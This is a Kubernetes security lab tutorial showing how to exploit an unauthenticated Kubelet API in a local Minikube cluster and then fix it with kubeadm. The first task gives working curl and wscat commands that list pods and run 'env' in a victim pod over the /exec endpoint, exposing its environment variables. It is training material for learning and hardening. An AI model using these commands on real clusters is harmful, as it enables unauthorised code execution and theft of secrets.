 ### Attack the Kubelet API
The Kubelet API is responsible for the master to node communication within a Kubernetes cluster. If you expose your nodes to the internet without some important configurations in place you are going to have a bad time. From the official Kubernetes docs:
"By default, requests to the Kubelet’s HTTPS endpoint that are not rejected by other configured authentication methods are treated as anonymous requests, and given a username of system:anonymous and a group of system:unauthenticated."

So let's exploit this "misconfiguration" within Minikube.

## Task 1: Spin up a default Kubernetes cluster

1. Start Minikube using the default localkube bootstrapper:
```
export MINIKUBE_HOME=~/Desktop/lab-tools/.kube
minikube delete
minikube start
```

2. The Kubelet API runs on every node in a cluster. If an individual has network access to a node in the kubernetes cluster, they are able to do some interesting things by default, including "exec-ing" into running pods. 
```
# port 10250 is the read/write port that the Kubelet API uses for communication to the master node
minikube ip
curl --insecure https://<minikubeIP>:10250/pods | jq
# jq is a tool to prettify JSON output - it is optional 
```

3. As you can see, using a default implementation of Minikube (and many other kubernetes production bootstrappers) we are able to list all of the pods running on a given node with a simple `curl` command. This seems bad, right? Let's try to Exec and do some real damage. First, we launch some victim pods to take over. In the `manifests` directory, run the following command:
```
kubectl create -f .
kubectl get pods
```

4. Now we have our unshorten-api Deployment and Service up and running we can extract details from them using the same `curl` command we used before:
```
curl --insecure https://<minikubeIP>:10250/pods | jq
```

5. In the `metadata` field of the JSON output for our Pod you will find the pod name (remember, this curl command is NOT authenticated. An attacker can see this info without the proper settings in place!). The value will look something like `"name": "link-unshorten-8746d649b-7k8w2",`

6. Now, we take that Pod name and run another curl command. Reading Pod data is interesting but we want to do some damage:
```
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.99.100:10250/exec/default/link-unshorten-8746d649b-7k8w2/unshorten-api-container?command=env&input=1&output=1&tty=1"
```

7. This opens a stream which we can access using [wscat](https://www.npmjs.com/package/wscat). Take note of the `location:` header as we will be using that value to read from the stream. You can install `wscat` using the link above. Once `wscat` is installed, run the following command:
```
wscat -c "https://<minikubeIP>:10250/cri/exec/<valueFrom302>" --no-check
```

8. These are *all of the environment variables* for our unshorten-api pod, printed to the scree, unauthenticated. 

See any issues here?

## Task 2: Fix the Issue
There are a number of way to address the kubelet-api "misconfiguration" issue. To do this locally, our most simple solution is to bootstrap our cluster using the `kubeadm` bootstrapper. Out of the box, Minikube still uses `localkube` to build clusters. `localkube` runs every cluster component as a single binary in the Kubernetes environment. This project is in the process of being deprecated in favor of `kubeadm` which offers us a much more robust solution that matches production clusters more closely.
```
minikube start --bootstrapper kubeadm
```

1. Run our `curl` command from before. We see that the response is `Forbidden` which is due to how `kubeadm` bootstraps clusters. `kubeadm` implements authorization of the kubelet by default. Let's take a look at this setting under the hood:
```
curl --insecure https://192.168.99.100:10250/pods
```

2. SSH into our Minikube node and take a look at our kubelet config:
```
minikube ssh
sudo cat /etc/kubernetes/kubelet.conf
```

3. You will see that our config defines a set of certificates which successfully enables authentication between the Master and Nodes. 

### Note: `kubeadm` does this by default but this is not always the case for other bootstrap mechanisms or scratch-built clusters! Always manually check that this configuration is enforced!

### Discussion Question: Is your kubelet api configured to block these attacks?
